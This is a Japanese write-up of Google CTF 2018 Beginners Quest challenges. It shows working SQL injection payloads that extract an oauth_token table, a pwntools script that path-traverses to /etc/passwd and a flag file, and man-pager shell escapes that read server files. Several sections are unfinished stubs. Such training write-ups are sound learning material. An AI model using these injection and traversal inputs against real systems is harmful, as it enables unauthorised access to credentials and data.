


googleCTFの解説をしてこうと思います。<br>


主にBeginnersQuestをメインに解説していこうと思います。<br>
(Challengesは正直レベルが高く1問しか解けなかった....)<br>
challengesもできた問題のみ解説します。<br>

出題問題はfileフォルダに入っています<br>

#  Google Capture The Flag 2018 #

## MISC ##

feel it

# Google_CTF_Beginners_Quest #

## MISC ##

LETTER<br>
FLOPPY<br>
FLOPPY2<br>
OCR_IS_COOL<br>
SECURITY_BY_OBSECURITY<br>
MEDIA-DB

## RE ##

FIRMWARE<br>
GATEHEEPER

## WEB ##

JS SAFE<br>
ROUTERUI<br>

## PWN ##

MOAR<br>
ADMIN UI<br>
ADMIN UI2<br>
ADMIN UI3<br>


# MISC/feel it #


# MISC/LETTER #

このファイルを解凍すると,pdfファイルが出てきます。<br>
PDFファイルを見てみましょう。



このように,USERNAMEとPASSが見えなくなっています。<br>
ここでpdfをtxt化してみます。<br>
今回はpdftotxtというコマンドを使いpdfをtxtにしました。

実行してみると

```
Fake Name
Fake Address
Fake City

A couple of days ago

IOT Credentials

Dear Customer,
Thanks for buying our super special awesome product, the Foobarnizer 9000!
Your credentials to the web interface are:
● Username:​...........................
● Password: ​CTF{ICanReadDis}
Note​: For security reasons we cannot change your password. Please store them safely.
```

flagが出てきましたね。
Flag: `CTF{ICanReadDis}`

# MISC/FLOPPY #

ファイルを解凍します。
そうするとfoo.iconというiconファイルが出てきました<br>
stringsコマンドで関係ありそうな文字列がありそうか調べてみます。

```
net40-dhcp199:gctf yotti$strings foo.icon

DDDA
DDDC333333
OOOO
DDDI
ODOI
DDDI
OODI
1DDDI
1DDOI
1DDGK
1OODI
1DDDI
1DOtI
1DDDI
1ODOI
1DDDI
1DDDK
driver.txtUT
-[ux
i Xq
www.comUT
-[ux
\,-8[
Uka9
%wv%K
)RxO
2Sgm
FKQ"
driver.txtUT
-[ux
www.comUT
-[ux
net40-dhc
```

今回は画像ですが,ステガノグラフィーではなさそうです。<br>
icon.fileの中にdriver,txtなど隠されたファイルがあるので,binwalkなどを使って抽出してみます。

```
net40-dhcp199:gctf yotti$ binwalk -e foo.ico 

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
765           0x2FD           Zip archive data, at least v2.0 to extract, compressed size: 123, uncompressed size: 136, name: driver.txt
956           0x3BC           Zip archive data, at least v2.0 to extract, compressed size: 214, uncompressed size: 225, name: www.com
1392          0x570           End of Zip archive
```

予想通りファイルが隠されていました。<br>
dirver.txtには

```
$cat driver.txt
This is the driver for the Aluminum-Key Hardware password storage device.
     CTF{qeY80sU6Ktko8BJW}
In case of emergency, run www.com
```

と書かれていました。これでflagゲットです。


# MISC/FLOPPY2 #

次は先ほど解析したFLOPPYに入っていた
www.comというファイルを解析します。

```
net40-dhcp199:_foo.ico.extracted yotti$ cat www.com 
hD7X-t6ug_hl(]Wh8$^15GG1-hbrX5prPYGW^QFIuxYGFK,1-FGIuqZhHIX%A)I!hSLX4SI!{p*S:eTM'~_?o?VThe Foobanizer9000 is no longer on the OffHub DMZ.          $P[0/,64"P4APG
```

なにやらよくわからん文字列がたくさん入ってます。<br>
最後の文章に、The Foobanizer9000 is no longer on the OffHub DMZ.
という文章が入ってます。<br>
fileコマンドを使っても,有力な情報は手に入りません....<br>
ただ何らかのプログラムや実行フィアルであることは確かです。<br>
そこでwww.comの.comという拡張子が何なのか調べてみると<br>

wikiより<br>
```
COM Filename extension COM
Type of format Executable Extended to DOS MZ executable
A COM file is a type of simple executable file. On the Digital Equipment operating systems of the 1970s, .COM was used as a filename extension for text files containing commands to be issued to the operating system (similar to a batch file).[1] With the introduction of CP/M (a microcomputer operating system), the type of files commonly associated with COM extension changed to that of executable files. This convention was later carried over to MS-DOS. Even when complemented by the more general .exe file format for executables, the compact COM files remained viable and frequently used in MS-DOS.```


つまりMS-DOSで使われていた拡張子のようです。<br>
そこでDOSboxというものをダウンロードして中で実行してみることにしました。


しかしDosboxでwww.comを実行しても,<br>
The Foobanizer9000 is no longer on the OffHub DMZ.<br>
と出るばかりでflagと関係ありそうな文字列は出てきませんね。。<br>

諦めるのも癪なのでいろいろ調べてみることに...<br>

するとデバッグモードなるものが,DOSBoxにはあることがわかりました。<br>
これはコード等を一時停止などしながらプログラムを実行する機能のようです。<br>
https://www.vogons.org/viewtopic.php?t=3944<br>
ここからまずソースコードをダウンロードし,実行します。<br>

ここでカーネルモードの設定を変更してあげる必要があります。<br>
debugモードは初期設定ではシリアルポートに文字列を送っているので,
dosbox.confの中身を変更する必要があるのです。

`
serial1=modem listenport:5000
serial2=modem listenport:5001
`


そうすることで,デバッガーが緊急停止した時に,再度実行されます。

`CTF{g00do1dDOS-FTW}`

結構苦戦しました....<br>
まだもっと簡単な方法がありそうなので,いろいろ調べてありそうなら更新します。


## MISC/OCR_IS_COOL ##

まず解凍してみると...


以上のようなファイルが出てきました<br>
先ほどのfloppy同様に隠しファイルがないか調べたり,ステガノグラフィーで調べたりしましたが,どれも違うようです。

ここでしっかりと画像を見てみると,なにやら文字列がおかしいことに気づきました。<br>
これはシーザー暗号で文字列をずらしているのではないか？<br>
っと気づきました。<br>
そこで全部画像から手打ちして,抽出するのはとてもめんどくさいので,自動で文字を認識してtxt化してくれる,tesseractというツールを使います。

```
(- e m mall.google.(om ‘ ‘z ‘ 5
IVI Gmail Q Searchmafl - O
<— S o e n n 5 w o n
+ Compose
YouriDropDrive is ready mm 6 Z a
D Inbox
* 3‘3”“ “ ropD elelm<wDropDHvEQ/cxfcompwuoncom) Juvv’Ai’AUéQJSAM {7 « 5 0
Q Snuuzed mm“
Wxxkvnlmmxk
> Sent
I mam PxxkxamrmhpxevhfxnMkgxpx‘mvmmmxkhyhnk‘xvnkxDwkmwkhuxvehnwyhexlalkhgz‘xkobvxT‘lyxlewxyhkleemnkyhex‘ +
V More Lmhkxlgrybex
nwkmwkbox mm m. pbma 15 Iu hyykxxhgehgxhkhyyehgxlmhkux mmmgumpm ungkbxl \lbgmhgzl.yetzl.ybkfiplkx\ uhmvhbg‘ pkhmxnlvxgrmabgz
o Wmlevmuled +
0.
Lxx mm \mnyyxgvpaxkx
Rhnkyhexlbgbwkmwkboxwguxkxwaxwykhugvyhhmghsxk mkmykhwzxznuo mmmmeummnnv hklxwhuv m paxkxukanzh mnkyhexlyheehp
Lalkx ybex‘ xgw yheka‘
m mg jnhvder Dgobmx mam mh obxp. whpgemw. lgw vheemhklmx hg xee max ybex‘ mn plgm um xkhe Immwavxgm‘ cmm Zbux max! max ebgd vwmmmammnmmmnmnngvmm) xgw max! vlg Wu lee m wum
w xqmex axkx“ lemm hy ybex‘ malm mm WWW \mhkhgz phma m
hyyanujhk'pxkx uhg ChagMK
aHMkawxgmme‘ \wy\\[wxexmxw\) Phgmkamxw
vnnmgnsxkenuuflgmw Pbgmkamxw
mm. Mnkuh
ngvx px mmx mum oxkv \xkbhmev xgw Dg nkka um mm.“ mn vzlbg‘m onegxkluhebmbx‘ ehdx ><me Igw nwyexp‘ px'kx \xgwbgz mm mm vkxwxgmble‘ mbgz max mnmnuxg Vbehmlkpzk‘wx mu mmm mm
Aw nwmwmngz-
Novece'umaxs « Rep‘y . Forward

Stan a new one
```


このような文字列抽出できました。<br>
これをシーザー暗号で一文字ずつずらしながら確認していきます。<br>

あとはtrコマンドやpythonでコード作ったりして文字をずらして確認していくだけです。<br>

参考までにcaeser暗号解読プログラムを載せておきます<br>
クソみたいなプログラムですがご了承ください<br>


```
#!/usr/bin/python
# -*- Coding: utf-8 -*-


file = open('orc.txt','r')
txt = file.read()
shift = 8
zura = 0


def Caeser(string):
    save = ''
    for s in string:
        s = ord(s)
        if 65 <= s and s<= 90:
            s = s + shift
            if s > 90:
               zura = s - 60
               s = 65 + zura  
        elif 97 <= s and s <= 122:
            s = s + 3
            if s > 122:
               zura  = s - 122
               s = 97 + zura
        s = chr(s)
        save += s
    return save
print Caeser(txt)
```

flag:`CTF{caesarcipherisasubstitutioncipher}`


## MISC/SECURITY_BY_OBSECURITY ##

解凍すると

```
$ password.x.a.b.c.d.e.f.g.h.i.j.k.l.m.n.o.p.a.b.c.d.e.f.g.h.i.j.k.l.m.n.o.p.p.o.n.m.l.k.j.i.h.g.f.e.d.c.b.a.a.b.c.d.e.f.g.h.i.j.k.l.m.n.o.p
```

このようなファイルが出てきました。

fileコマンドで調べてみると<br>
```
$file password.x.a.b.c.d.e.f.g.h.i.j.k.l.m.n.o.p.a.b.c.d.e.f.g.h.i.j.k.l.m.n.o.p.p.o.n\
.m.l.k.j.i.h.g.f.e.d.c.b.a.a.b.c.d.e.f.g.h.i.j.k.l.m.n.o.p
Zip archive data, at least v2.0 to extract
```

zipファイルということがわかります。<br>
これにzip拡張子を追加して解凍してみましたが,うまくいきませんでした。<br>

これは多重に圧縮されているzipファイルです<br>
とりあえずひたすら圧縮されているファイルを解凍していきます

パスワードの解析にはJohnTheRipperを使います。<br>


ちなみにMac環境では,JohnTheRIpperがインストールできなかったので, Debian環境でやりました....(誰かmac環境でインストールできる人がいたら教えてください...)<br>


## MISC/MEDIA-DB ##

説明
```
The gatekeeper software gave you access to a custom database to organize a music playlist. It looks like it might also be connected to the smart fridge to play custom door alarms. Maybe we can grab an oauth token that gets us closer to cake.

$nc media-db.ctfcompetition.com 1337
```

この問題はDBサーバーに接続して,flagを入手するタイプの問題です。<br>

attachされていた,ソースコードを見てみます

```
#!/usr/bin/env python2.7

import sqlite3
import random
import sys

BANNER = "=== Media DB ==="
MENU = """\
1) add song
2) play artist
3) play song
4) shuffle artist
5) exit"""

with open('oauth_token') as fd:
  flag = fd.read()

conn = sqlite3.connect(':memory:')
c = conn.cursor()

c.execute("CREATE TABLE oauth_tokens (oauth_token text)")
c.execute("CREATE TABLE media (artist text, song text)")
c.execute("INSERT INTO oauth_tokens VALUES ('{}')".format(flag))

def my_print(s):
  sys.stdout.write(s + '\n')
  sys.stdout.flush()

def print_playlist(query):
  my_print("")
  my_print("== new playlist ==")
  for i, res in enumerate(c.execute(query).fetchall()):
    my_print('{}: "{}" by "{}"'.format(i+1, res[1], res[0]))
  my_print("")

my_print(BANNER)

while True:
  my_print(MENU)
  sys.stdout.write("> ")
  sys.stdout.flush()
  choice = raw_input()
  if choice not in ['1', '2', '3', '4', '5']:
    my_print('invalid input')
    continue
  if choice == '1':
    my_print("artist name?")
    artist = raw_input().replace('"', "")
    my_print("song name?")
    song = raw_input().replace('"', "")
    c.execute("""INSERT INTO media VALUES ("{}", "{}")""".format(artist, song))
  elif choice == '2':
    my_print("artist name?")
    artist = raw_input().replace("'", "")
    print_playlist("SELECT artist, song FROM media WHERE artist = '{}'".format(artist))
  elif choice == '3':
    my_print("song name?")
    song = raw_input().replace("'", "")
    print_playlist("SELECT artist, song FROM media WHERE song = '{}'".format(song))
  elif choice == '4':
    artist = random.choice(list(c.execute("SELECT DISTINCT artist FROM media")))[0]
    my_print("choosing songs from random artist: {}".format(artist))
    print_playlist("SELECT artist, song FROM media WHERE artist = '{}'".format(artist))
  else:
    my_print("bye")
    exit(0)

```

とりあえずまずshellscriptを作成します

```
#! /bin/bash                                                                     
nc media-db.ctfcompetition.com 1337
```

```
net40-dhcp199:script yotti$ ./connect.sh 
=== Media DB ===
1) add song
2) play artist
3) play song
4) shuffle artist
5) exit
> 1
artist name?
yotti
song name?
hello 
1) add song
2) play artist
3) play song
4) shuffle artist
5) exit
> 3
song name?
hello

== new playlist ==
1: "hello" by "yotti"

1) add song
2) play artist
3) play song
4) shuffle artist
5) exit
> 
```

これを見ると,まずsongとplaysongを追加すると,DBにどんどん追加されていくというプログラムのようです。
詳しくattachされていたプログラムを見ていきます。

これらを見るとoauth_token　textという接続場所にflagがあるのではないかと予測できます。<br>

もし1と入力したら,後にそれらとplayaritstが結合されるプログラムということがわかります。<br>

一つ実験でやってみました

```
> net40-dhcp199:script yotti$ ./connect.sh 
=== Media DB ===
1) add song
2) play artist
3) play song
4) shuffle artist
5) exit
> 1
artist name?
yotti
song name?
hello
1) add song
2) play artist
3) play song
4) shuffle artist
5) exit
> 4
choosing songs from random artist: yotti

== new playlist ==
1: "hello" by "yotti"

1) add song
2) play artist
3) play song
4) shuffle artist
5) exit
> 1
artist name?
yotti
song name?
goodnight
1) add song
2) play artist
3) play song
4) shuffle artist
5) exit
> 1
artist name?
yotti' UNION SELECT 1, 2 --
song name?
test
1) add song
2) play artist
3) play song
4) shuffle artist
5) exit
> 4
choosing songs from random artist: yotti' UNION SELECT 1, 2 --

== new playlist ==
1: "2" by "1"
2: "goodnight" by "yotti"
3: "hello" by "yotti"

1) add song
2) play artist
3) play song
4) shuffle artist
5) exit
```

これで結合されていることがわかります<br>
では先ほどのoauth_tokenをDB上で抜き取ります.

```
== new playlist ==
Traceback (most recent call last):
  File "./media-db.py", line 76, in <module>
    print_playlist("SELECT artist, song FROM media WHERE artist = '{}'".format(artist))
  File "./media-db.py", line 45, in print_playlist
    for i, res in enumerate(c.execute(query).fetchall()):
sqlite3.OperationalError: near "(": syntax error
net40-dhcp199:script yotti$ ./connect.sh 
=== Media DB ===
1) add song
2) play artist
3) play song
4) shuffle artist
5) exit
> 1
artist name?
yotti' UNION SELECT ( SELECT oauth_token FROM oauth_tokens ), 2 --
song name?
hello
1) add song
2) play artist
3) play song
4) shuffle artist
5) exit
> 4
choosing songs from random artist: yotti' UNION SELECT ( SELECT oauth_token FROM oauth_tokens ), 2 --

== new playlist ==
1: "2" by "CTF{fridge_cast_oauth_token_cahn4Quo}
"

1) add song
2) play artist
3) play song
4) shuffle artist
5) exit
```

はいoauth_tokenを抜き出すことができました。


## Rev/FIRMWARE ##

ここからはrevの問題の解説をしていきます。<br>
まずファイルを解凍するとchallenge.ext4というファイルが出てきます

```
net40-dhcp107:gctf yotti$ file challenge.ext4 
challenge.ext4: Linux rev 1.0 ext4 filesystem data (extents) (64bit) (large files) (huge files)
```

これはlinuxのファイルシステムなので、普通にマウントしてあげればokです。<br>
あとはファイルシステムの中を見ると'.mediapc_backdoor_password.gz' と言うファイルがあるので解凍してあげるとフラッグが出てきます。

ctf='CTF{I_kn0W_tH15_Fs}'

## Rev/GATEKEEPER ##

ファイルを解凍すると、gatekeeperと言うファイルが出てきます。<br>
まず権限がないので,権限の付与をしてあげ,実行してみます。<br>

```
net40-dhcp107:gctf yotti$ file gatekeeper
gatekeeper: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.32, not stripped
```

とうやらelfファイルのようです。


continue 


## PWN/MOAR ##

PWNの問題に入っていきます<br>
まず問題文で書かれていた<br
'$nc moar.ctfcompetition.com 1337'<br>
に接続してみます。<br>

```
net40-dhcp107:gctf yotti$ nc moar.ctfcompetition.com 1337
socat(1)                                                              socat(1)

NAME
 Manual page socat(1) line 1 (press h for help or q to quit)
       infos.
 Manual page socat(1) line 2 (press h for help or q to quit)
       socat [options] <address> <address>
       socat -V
       socat -h[h[h]] | -?[?[?]]
       filan
       procan

DESCRIPTION
       Socat  is  a  command  line based utility that establishes two bidirec-
       tional byte streams  and  transfers  data  between  them.  Because  the
       streams  can be constructed from a large set of different types of data
       sinks and sources (see address types),  and  because  lots  of  address
       options  may be applied to the streams, socat can be used for many dif-
       ferent purposes.

       Filan is a utility  that  prints  information  about  its  active  file
       descriptors  to  stdout.  It  has been written for debugging socat, but
       might be useful for other purposes too. Use the -h option to find  more

```

どうやらmanコマンドでsocketと言うファイルの説明をしているようです<br>
あとはmanコマンドから抜けるために!コマンドを使えばokです。<br>

```
DESCRIPTION
       Socat  is  a  command  line based utility that establishes two bidirec-
       tional byte streams  and  transfers  data  between  them.  Because  the
       streams  can be constructed from a large set of different types of data
       sinks and sources (see address types),  and  because  lots  of  address
       options  may be applied to the streams, socat can be used for many dif-
       ferent purposes.

       Filan is a utility  that  prints  information  about  its  active  file
       descriptors  to  stdout.  It  has been written for debugging socat, but
       might be useful for other purposes too. Use the -h option to find  more
 Manual page socat(1) line 1 (press h for help or q to quit)
       infos.
 Manual page socat(1) line 2 (press h for help or q to quit)!cat /home/moar/disable_dmz/sh
!cat /home/moar/disable_dmz/sh
cat: /home/moar/disable_dmz/sh: No such file or directory
!done  (press RETURN)!ls -l /home/moar

!ls -l /home/moar
total 4
-r-xr-xr-x 1 nobody nogroup 695 Jun 26 15:56 disable_dmz.sh
!done  (press RETURN)!cat /home/moar/disable_dmz.sh

!cat /home/moar/disable_dmz.sh
#!/bin/sh

# Copyright 2018 Google LLC
#
# Licensed under the Apache License, Version 2.0 (the "License");
# you may not use this file except in compliance with the License.
# You may obtain a copy of the License at
#
#     https://www.apache.org/licenses/LICENSE-2.0
#
# Unless required by applicable law or agreed to in writing, software
# distributed under the License is distributed on an "AS IS" BASIS,
# WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
# See the License for the specific language governing permissions and
# limitations under the License.

echo 'Disabling DMZ using password CTF{SOmething-CATastr0phic}'
echo CTF{SOmething-CATastr0phic} > /dev/dmz
!done  (press RETURN)n
```

はい、フラッグ入手です<br>
flag: 'CTF{SOmething-CATastr0phic} '

## Rev/admin ##

'nc mngmnt-iface.ctfcompetition.com 1337' <br>
サーバーへ接続してみます

```
net40-dhcp107:gctf yotti$ nc mngmnt-iface.ctfcompetition.com 1337
=== Management Interface ===
 1) Service access
 2) Read EULA/patch notes
 3) Quit
2
The following patchnotes were found:
 - Version0.3
 - Version0.2
Which patchnotes should be shown?
Version0.2
# Release 0.2
 - Updated library X to version 0.Y
 - Fixed path traversal bug
 - Improved the UX
=== Management Interface ===
 1) Service access
 2) Read EULA/patch notes
 3) Quit
2
The following patchnotes were found:
 - Version0.3
 - Version0.2
Which patchnotes should be shown?
Version0.3
# Version 0.3
 - Rollback of version 0.2 because of random reasons
 - Blah Blah
 - Fix random reboots at 2:32 every second Friday when it's new-moon.
=== Management Interface ===
 1) Service access
 2) Read EULA/patch notes
 3) Quit

```

試しに接続して色々やってみると、どうやら2でflagの場所を入力するみたいです<br>
毎回接続するのはめんどくさいのでpythonでプログラムを作って実行します。<br>

何回か接続を試しながら作ったものです.

```
#! /usr/bin/env python2                                                                                 

from pwn import *

host = 'mngmnt-iface.ctfcompetition.com'
port = 1337

s = remote(host,port)
s.recv()
s.recv()
s.sendline("2")
s.recv()
s.recv()
s.sendline("../../../../../etc/passwd")
print s.recv()
print s.recv()
s.close()
```


実行すると<br>

```
net40-dhcp107:script yotti$ ./admin1.py
[+] Opening connection to mngmnt-iface.ctfcompetition.com on port 1337: Done
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/
usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
_apt:x:104:65534::/nonexistent:/bin/false
user:x:1337:1337::/home/user:
=== Management Interface ===
 1) Service access
 2) Read EULA/patch notes
 3) Quit

[*] Closed connection to mngmnt-iface.ctfcompetition.com port 1337
```

のようになります<br>
user:x:1337:1337::/home/user:<br>
なのでプログラムの部分を/home/user/flagに書き直したらflagがでてきました。<br>

```
net40-dhcp107:script yotti$ ./admin1.py
[+] Opening connection to mngmnt-iface.ctfcompetition.com on port 1337: Done
CTF{I_luv_buggy_sOFtware}
=== Management Interface ===
 1) Service access
 2) Read EULA/patch notes
 3) Quit

[*] Closed connection to mngmnt-iface.ctfcompetition.com port 1337
```

flag:'CTF{I_luv_buggy_sOFtware}'

## PWN/ADMIN2 ##

先ほどと同じサーバでの問題です<br>

```
That first flag was a dud, but I think using a similar trick to get the full binary file might be needed here. There is a least one password in there somewhere. Maybe reversing this will give you access to the authenticated area, then you can turn up the heat… literally.
```

まず実行可能ファイルを取得します。<br>
'../../../../../../proc/self/cmdline'と入力すると'../main'とでてくるのでここにダンプされた実行ファイルを取得します<br>

'print'
